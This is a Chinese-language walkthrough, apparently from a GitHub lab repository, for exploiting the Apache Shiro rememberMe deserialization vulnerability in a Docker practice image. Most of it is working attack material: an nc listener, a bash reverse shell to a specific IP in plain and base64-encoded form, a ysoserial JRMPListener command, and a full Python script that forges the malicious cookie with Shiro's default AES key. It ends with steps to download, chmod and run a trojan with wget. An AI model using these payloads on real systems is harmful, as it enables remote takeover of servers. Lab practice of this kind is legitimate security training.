 # shiro 反序列化

![靶场](https://github.com/Medicean/VulApps/tree/master/s/shiro/1)

### 获取环境:
**拉取镜像到本地**
```
$ docker pull medicean/vulapps:s_shiro_1
```
**启动环境**
```
$ docker run -d -p 80:8080 medicean/vulapps:s_shiro_1
```
-p 80:8080 前面的 80 代表物理机的端口，可随意指定。

**使用与利用**

访问 http://你的 IP 地址:端口号/



**反弹shell**

1. 监听VPS端口

```
yun install nc
nc –lvp 1234
```

2. 使用 jackson 配合bash编码
地址：
http://www.jackson-t.ca/runtime-exec-payloads.html

得到编码后的结果：
```
bash -I >& /dev/tcp 45.77.205.238/1234 0>&1  # ip为vps ip
```

```bash
bash -c {echo,YmFzaCAtSSA+JiAvZGV2L3RjcCA0NS43Ny4yMDUuMjM4LzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}
```


3. 通过ysoserial中JRMP监听模块，监听6666端口并执行反弹shell命令。

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 "bash -c {echo,YmFzaCAtSSA+JiAvZGV2L3RjcCA0NS43Ny4yMDUuMjM4LzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}"
```
![](img/1.png)

4. 使用shiro.py生成payload
```
python shiro.py 45.77.205.238:6666   # ip为vps ip
```

代码如下 python版本为2.7：
```py
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
     popen = subprocess.Popen(['java', '-jar', 'ysoserial-master-SNAPSHOT.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
     BS = AES.block_size
     pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
     key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
     iv = uuid.uuid4().bytes
     encryptor = AES.new(key, AES.MODE_CBC, iv)
     file_body = pad(popen.stdout.read())
     base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
     return base64_ciphertext
if __name__ == '__main__':
     payload = encode_rememberme(sys.argv[1])
print "rememberMe={0}".format(payload.decode())

```
> from Crypto.Cipher import AES 安装不上这个包的解决方法

```
pip install pycryptodome
```

![](img/2.png)

等回弹即可


## 使用web服务器

自建个服务器，写个shell的马，上传到服务器，开监听，不停的生成cookie发包即可。

```bash
yum install wget/apt install wget
wget http://xxxxxxx/xxx.xxx 马的位置
chmod 777 马
./xxx.xxx
```
![](img/3.png)
